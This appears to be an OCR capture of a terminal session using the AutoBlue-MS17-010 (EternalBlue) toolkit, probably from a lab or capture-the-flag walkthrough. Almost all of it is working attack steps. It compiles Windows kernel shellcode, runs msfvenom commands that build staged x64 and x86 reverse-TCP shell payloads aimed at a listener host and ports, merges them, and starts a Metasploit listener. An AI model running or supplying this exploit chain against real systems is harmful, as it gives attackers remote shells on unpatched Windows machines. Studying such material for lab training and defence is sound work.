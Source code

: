 Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
Y
LHOST for reverse connection:
tun0
LPORT you want x64 to listen on:
4445
LPORT you want x86 to listen on:
4446
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
0
Generating x64 cmd shell (staged)...

msfvenom -p windows/x64/shell/reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=tun0 LPORT=4445
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (staged)...

msfvenom -p windows/shell/reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=tun0 LPORT=4446

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```
Now running setting up the listener shell
```
➜  AutoBlue-MS17-010 git:(master) ✗ ./listener_prep.sh 
  __
  /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
tun0
LPORT for x64 reverse connection:
4445
LPORT for x86 reverse connection:
4446
Enter 0 for meterpreter shell or 1 for regular cmd shell:
1
Type 0 if this is a staged payload or 1 if it is for a stageless payload
0
Starting listener (staged)...
Starting postgresql (via systemctl): postgresql.service.
                                                  